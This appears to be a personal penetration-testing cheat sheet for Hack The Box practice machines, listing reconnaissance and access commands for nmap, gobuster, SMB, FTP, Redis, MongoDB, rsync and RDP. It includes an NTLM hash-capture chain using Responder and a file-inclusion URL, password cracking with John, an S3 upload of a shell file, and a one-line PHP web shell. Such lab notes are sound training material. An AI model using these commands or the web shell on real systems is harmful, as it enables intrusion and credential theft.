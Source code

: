 # cheatsheet

## Dictionary
* wordlists
  ```sudo apt install wordlists```
* seclists
  ```sudo apt install seclists```
  * dir: /usr/share/seclists/Discovery/Web-Content/common.txt
  * sub-domain: /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 
## Tools
* wappalyzer(extension)

## Nmap
  ```shell
  sudo nmap -sV {IP}
  ```
  * if -sV not always enough, try -sC to run safe script for more version info.
  ```shell
  sudo nmap -sC {IP}
  ```
  
  ```shell
  sudo nmap -sT 10.129.107.120 -top-ports 1000 -d
  ```

  * all ports range, or specific ports, min-rate specific min send packets per sec.
  ```shell
  sudo nmap -p- --min-rate=1000 -sV {IP}
  ```

  * More information
  ```sudo nmap -sV -sC -v {IP}```

## Telnet
  ```shell
  telnet open {IP}
  ```

## FTP
* Press Entry button if password is null
  ```shell
  ftp anonymous@{IP}
  ```

## SMB
```shell
smbclient -L {IP}
```
```shell
smbclient \\\\{IP}\\{DIR}
```
### NTLM Challange/Responder
* Use tool: Responder, acting a authentication server to collect hash string where target machine send to.
```shell
git clone https://github.com/lgandx/Responder
sudo python3 Responder.py -I tun0
w3m http://unika.htb/index.php?page=//{LOCAL IP}/somefile
```
* Wordlists at /usr/share/wordlists
```shell
sudo apt install wordlists
```
* John, which is a brute force pwd cracking tool
* use wordlists referred above and hash.txt which generated by Responder
```shell
john -w=/usr/share/wordlists/rockyou.txt.gz hash.txt
```


## Redis
* see all info
```shell
info
```
* see server info
```shell
info server
```
```shell
select {db}
```
```shell
keys *
```
```shell
dbsize
```

## RDP
### GUI RDP
```shell
xfreerdp3 /v:{HOST} /u:{USERNAME}
```
### SHELL RDP
```shell
evil-winrm  -i 10.129.95.234 -u administrator -p badminton
```

## GoBuster
* dir
```shell
https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/common.txt
gobuster dir -u 10.129.70.58 -w wordlist.txt
```
* sub-domain/vhost
```shell
gobuster vhost -u http://thetoppers.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain
```

* binding host
```shell
echo "10.129.128.223 unika.htb" | sudo tee -a /etc/hosts
```

## MongoDB
```shell
curl -O https://downloads.mongodb.com/compass/mongosh-2.3.2-linux-x64.tgz
```
```shell
./mongosh mongodb://{IP}:{PORT}
show dbs;
show tables;
db.{TALBENAME}.find().pretty()
```

## Rsync
* default port 873
```shell
rsync --list-only {IP}::public
```
```shell
rsync {IP}::public/flag.txt flag.txt
```

## Kali RDP
```shell
#!/bin/bash
sudo apt -y update
sudo apt -y install kali-desktop-xfce xrdp
sudo systemctl enable xrdp
sudo systemctl restart xrdp
# setting the password for the kali user so you can login to the desktop. 
# Reset this once you have logged in.
echo 'kali:kali' | sudo chpasswd    
```

## AWS
* awscli
  ```shell
  sudo apt install awscli
  aws configure
  aws --endpoint=http://s3.thetoppers.htb s3 ls    #SHOW bucket name
  aws --endpoint=http://s3.thetoppers.htb s3 ls s3://{BUCKET NAME}
  aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
  ```

## Injection
### PHP
  ```echo '<?php system($_GET["cmd"]); ?>' > shell.php```
